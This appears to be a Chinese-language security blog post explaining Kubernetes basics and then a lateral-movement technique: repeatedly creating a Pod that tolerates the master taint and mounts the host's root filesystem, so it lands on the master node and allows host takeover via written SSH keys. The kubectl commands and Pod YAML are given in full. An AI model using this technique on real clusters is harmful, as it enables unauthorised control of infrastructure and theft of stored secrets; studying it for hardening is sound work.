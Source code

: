 ```yaml
---
date: "2021-07-20T00:00:00Z"
description: Kubernetes (通常称为 K8s) 是来自 Google 云平台的开源容器集群管理系统，用于自动部署、扩展和管理容器化（containerized）应用程序。本文介绍获取了其中某个节点的宿主机权限，如何横向移动到Master节点，从而获取整个集群的权限。
title: Kubernetes(K8s)横向移动办法
url: /archivers/2021-07-20/1
---
```


> 博客半年没写了，来除除草.... :(

## 0x01 Kubernetes 简介

Kubernetes 是一个可移植的、可扩展的开源平台，用于管理容器化的工作负载和服务，可促进声明式配置和自动化。 Kubernetes 拥有一个庞大且快速增长的生态系统。Kubernetes 的服务、支持和工具广泛可用。

![2021-07-20-11-19-39](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/60ab9641f6ec3ecfec996616ef0837ab.png)

**传统部署时代：**

早期，各个组织机构在物理服务器上运行应用程序。无法为物理服务器中的应用程序定义资源边界，这会导致资源分配问题。 例如，如果在物理服务器上运行多个应用程序，则可能会出现一个应用程序占用大部分资源的情况， 结果可能导致其他应用程序的性能下降。 一种解决方案是在不同的物理服务器上运行每个应用程序，但是由于资源利用不足而无法扩展， 并且维护许多物理服务器的成本很高。

**虚拟化部署时代：**

作为解决方案，引入了虚拟化。虚拟化技术允许你在单个物理服务器的 CPU 上运行多个虚拟机（VM）。 虚拟化允许应用程序在 VM 之间隔离，并提供一定程度的安全，因为一个应用程序的信息 不能被另一应用程序随意访问。

虚拟化技术能够更好地利用物理服务器上的资源，并且因为可轻松地添加或更新应用程序 而可以实现更好的可伸缩性，降低硬件成本等等。

每个 VM 是一台完整的计算机，在虚拟化硬件之上运行所有组件，包括其自己的操作系统。

**容器部署时代：**

容器类似于 VM，但是它们具有被放宽的隔离属性，可以在应用程序之间共享操作系统（OS）。 因此，容器被认为是轻量级的。容器与 VM 类似，具有自己的文件系统、CPU、内存、进程空间等。 由于它们与基础架构分离，因此可以跨云和 OS 发行版本进行移植。

> 以上摘自Kubernetes官方文档：https://kubernetes.io/zh/docs/concepts/overview/what-is-kubernetes/

## 0x02 Kubernetes 关键概念介绍

Kubernetes有如下几个与本文相关的概念：

1. 节点(Node)
2. Pod
3. 容忍度(Toleration)与污点(Taint)


### 节点(Node)

Kubernetes 通过将容器放入在节点（Node）上运行的 Pod 中来执行你的工作负载。 节点可以是一个虚拟机或者物理机器，取决于所在的集群配置。最容易理解的例子：

![2021-07-20-10-38-26](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/527d6800fc5f0a462b9dc90a1c3908f9.png)

该集群有三个节点，我可以在这三个节点上创建很多个Pod，而Pod中可以包含多个容器。在所有的节点中，至少要有一个Master节点，Master节点是第一个加入集群的机器，它具有整个集群的最高权限，本文的目的就是研究如何通过其他节点，横向移动到Master节点，因为Secret敏感信息(令牌、账户密码、公私钥等等)都存储在Kubernetes的etcd数据库上。

### Pod

Pod是可以在 Kubernetes 中创建和管理的、最小的可部署的计算单元。

Pod（就像在鲸鱼荚或者豌豆荚中）是一组（一个或多个） 容器； 这些容器共享存储、网络、以及怎样运行这些容器的声明。 Pod中的内容总是并置（colocated）的并且一同调度，在共享的上下文中运行。 Pod所建模的是特定于应用的“逻辑主机”，其中包含一个或多个应用容器， 这些容器是相对紧密的耦合在一起的。 在非云环境中，在相同的物理机或虚拟机上运行的应用类似于 在同一逻辑主机上运行的云应用。

Pod的共享上下文包括一组 Linux 名字空间、控制组（cgroup）和可能一些其他的隔离方面，即用来隔离Docker容器的技术。 在Pod的上下文中，每个独立的应用可能会进一步实施隔离。

就Docker概念的术语而言，Pod类似于共享名字空间和文件系统卷的一组Docker容器，也就是说Pod是Docker容器的超集。


### 容忍度(Toleration)与污点(Taint)

Kubernetes可以约束一个 Pod 只能在特定的节点上运行。


节点亲和性 是Pod的一种属性，它使 Pod 被吸引到一类特定的节点 （这可能出于一种偏好，也可能是硬性要求）。 污点（Taint）则相反——它使节点能够排斥一类特定的 Pod。容忍度（Toleration）是应用于 Pod 上的，允许（但并不要求）Pod 调度到带有与之匹配的污点的节点上。**我们可以控制Pod创建时候的污点来向集群内的节点进行喷射创建。**


## 0x03 环境介绍

当前实验环境有三个节点，其中一个为Master节点，其余的都是普通节点。

![2021-07-20-10-56-11](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/fb788c1977b181ed1fcebec421adaee0.png)

当前机器是node1，普通节点，节点全部为健康状态，接下来要利用创建Pod的功能，横向到k8s-master。


## 0x04 利用创建Pod横向移动

1. 确认Master节点的容忍度
   
```bash
$ kubectl describe node <Node Name>
```

![2021-07-20-10-59-50](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/4de02e057736c6c005e1a521fc7ad7d7.png)

2. 创建带有容忍参数的Pod

```bash
$ kubectl create -f control-master.yaml
```

control-master.yaml内容：

```yaml
apiVersion: v1
kind: Pod
metadata:
name: control-master-3
spec:
tolerations:
- key: node-role.kubernetes.io/master
operator: Exists
effect: NoSchedule
containers:
- name: control-master-3
image: ubuntu:18.04
command: ["/bin/sleep", "3650d"]
volumeMounts:
- name: master
mountPath: /master
volumes:
- name: master
hostPath:
path: /
type: Directory
```

![2021-07-20-11-02-18](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/a092be4614e40a1c419aeb417f00d5c5.png)


在多次创建Pod后，会发现Pod会在Master节点上出现，再利用kubectl进入容器，执行逃逸。


![2021-07-20-11-06-24](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/71842cf8d76f15aa1b04260f2186cf21.png)

至此，逃逸完成，能够通过写公私钥的方式控制Master宿主机。

## 0x05 总结

本文通过了解Kubernetes的一些基本概念，完成了在节点中进行横向逃逸，但我没有实现指定节点的逃逸过程，因为在Kubernetes中低权限的节点无法修改Master节点的容忍度，因此要完成逃逸，需要在每一个节点上至少创建一个Pod，如果集群中节点数量庞大的话....